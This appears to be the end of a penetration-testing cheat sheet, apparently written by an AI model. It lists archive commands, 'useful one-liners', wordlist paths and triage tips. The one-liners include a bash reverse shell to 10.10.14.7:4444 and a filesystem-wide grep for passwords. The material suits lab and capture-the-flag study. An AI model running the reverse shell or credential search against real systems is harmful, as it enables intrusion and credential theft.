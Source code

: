 
## 🧩 Archive & compression (quick ref)

```bash
tar -xvf file.tar
tar -xvzf file.tar.gz
unzip file.zip
7z x file.7z
unrar x file.rar
```

---

## 🔁 Useful one-liners

```bash
# Find files owned by root that are writable by others
find / -type f -perm -o+w -user root 2>/dev/null

# Simple HTTP server for file serving
python3 -m http.server 8000

# Reverse shell (bash)
bash -i >& /dev/tcp/10.10.14.7/4444 0>&1

# Quick port scan (top ports) with nmap
nmap --top-ports 1000 -sV target

# Recursively search for strings (like password) in files
grep -R "password" / 2>/dev/null | less
```

---

## 🧰 Tools & wordlists (common locations)

```
/usr/bin, /usr/sbin, /usr/local/bin
/usr/share/wordlists/rockyou.txt
/usr/share/wordlists/seclists
/usr/share/metasploit-framework
```

---

## ✅ Final tips

* Always run `file` and `strings` on unknown binaries.
* Use non-destructive commands first (list, strings, file).
* When working live, capture everything (`tcpdump`, `script`, `strace`).
* Keep local copies of common tools (nmap, nc, python, gcc, socat, wget, curl, 7z).

---

*Want this saved as a downloadable PDF or added to your repo README? I can also make a short printable one-page version.*
